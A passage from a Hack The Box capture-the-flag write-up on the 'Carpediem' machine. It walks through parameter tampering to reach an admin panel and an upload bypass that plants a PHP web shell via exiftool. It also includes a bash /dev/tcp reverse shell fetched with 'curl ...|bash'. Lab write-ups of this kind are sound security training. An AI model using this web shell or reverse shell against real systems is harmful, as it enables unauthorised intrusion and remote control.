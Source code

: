 ```bash
available databases [1]:
[*] portal
```

Sadly it stops there, we're unable to fetch tables and/or columns. I tried a lot of different common combinations such as table ``users`` and columns ``username,password`` but nothing. It looks like this might be a rabbit hole. Moving on to the next form, we can edit our user under `http://portal.carpediem.htb/?p=edit_account`. 

Doing a edit, we can see a new interesting parameter in Burp - `login_type=2`. Changing this to **1** and we're now able to access `/admin`
![[/assets/images/htb-writeup-carpediem/carpediem06.png]]

![[/assets/images/htb-writeup-carpediem/carpediem07.png]]


### Step 2
Going through the admin panel the options are slim, at first glance it looks like we have a lot of options but in reality they've removed all the _update/save_ buttons only giving access to few functions.

**(1)** We can create a new bike with text + image
**(2)** Edit previously created bikes
**(3)** Print a Booking Report PDF
**(4)** Edit our user profile and add avatar image

Looking on bookings we find 5 entries, and from the data a new name: `jhammond@carpediem.htb`.
Going to edit user profile I try to upload a malicious jpg containing php code, but this does nothing. 

We can bypass this by simply capturing the request in burp and removing `.jpg` from the request body, and the file will be uploaded as a ``.php``. 
```bash
➜  carpediem exiftool -DocumentName="<h1>0xPThree - exploit.se<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" exploit.jpg 
    1 image files updated
➜  carpediem mv exploit.jpg exploit.php.jpg
```

From Burp intercept change filename:
![[/assets/images/htb-writeup-carpediem/carpediem08.png]]

And our avatar should now be broken by the webshell.
![[/assets/images/htb-writeup-carpediem/carpediem09.png]]

Right-click the image, open in new tab, and start to enumerate the box and/or setup a reverse shell. 
![[/assets/images/htb-writeup-carpediem/carpediem10.png]]

The uploaded php file is removed after a few minutes, so create a simple reverse shell:
```bash
➜  carpediem echo "bash -i >& /dev/tcp/10.10.14.10/4488 0>&1" > rev.sh
➜  carpediem chmod +x rev.sh 
➜  carpediem python3 -m http.server 80

## Do a GET request to run 'rev.sh'
GET /uploads/1662983460_exploit.php?cmd=curl%20http://10.10.14.10/rev.sh|bash

➜  carpediem nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.167] 46968
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@3c371615b7aa:/var/www/html/portal/uploads$ id && hostname
```